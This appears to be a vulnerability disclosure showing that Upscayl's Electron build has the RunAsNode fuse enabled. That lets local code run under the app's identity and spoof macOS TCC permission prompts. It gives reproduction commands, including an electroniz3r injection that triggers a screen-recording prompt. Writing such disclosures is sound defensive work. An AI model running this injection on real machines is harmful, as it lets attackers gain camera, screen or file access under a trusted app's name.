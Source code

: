# TCC Bypass via Prompt Spoofing

## Summary

Upscayl’s Electron configuration allows local attackers to trigger misleading macOS permission prompts by running malicious code under the identity of the trusted app. This is caused by the `RunAsNode` fuse being enabled, allowing `Node.js` code execution with full inherited app entitlements.

An attacker can leverage this to request any sensitive permissions e.g. `sensitive hardware (camera, microphone`) and `tcc protected files` through a subprocess, causing the TCC system prompt to appear as if the request came from Upscayl, not the attacker’s code.

The root cause is that the `RunAsNode` fuse allows launching the app in a special `Node.js` mode using `-e`, executing arbitrary system commands with Upscayl’s permissions and identity.
```sh
swayzgl1tzyyy@SwayZGl1tZyyys-Mac ~ % npx @electron/fuses read --app /Applications/Upscayl.app/Contents/MacOS/Upscayl 

Analyzing app: Upscayl
Fuse Version: v1
  RunAsNode is Enabled
  EnableCookieEncryption is Disabled
  EnableNodeOptionsEnvironmentVariable is Enabled
  EnableNodeCliInspectArguments is Enabled
  EnableEmbeddedAsarIntegrityValidation is Disabled
  OnlyLoadAppFromAsar is Disabled
  LoadBrowserProcessSpecificV8Snapshot is Disabled
```
## Technical Details

Electron apps that enable the `RunAsNode` fuse can be launched in a special `Node.js` mode. When this is combined with the `-e`flag and used to execute system commands, macOS treats the subprocess as part of the parent application.

## How to Reproduce the TCC Prompt Spoofing

The tool [electroniz3r](https://github.com/r3ggi/electroniz3r) can automate the process:

```sh
swayzgl1tzyyy@SwayZGl1tZyyys-Mac ~ % electroniz3r inject /Applications/Upscayl.app --predefined-script screenshot

/Applications/Upscayl.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/65ebc839-aed9-4c19-bc0a-3395b8513286
Check /tmp/screenshot.jpg
```

This payload triggers a macOS TCC prompt for camera access. But instead of showing the request as coming from the Terminal (which executed the code), the system displays:

>"Upscayl" would like to record this computer's screen and audio.
>Grant access to this application in Privacy & Security settings, located in System Settings.
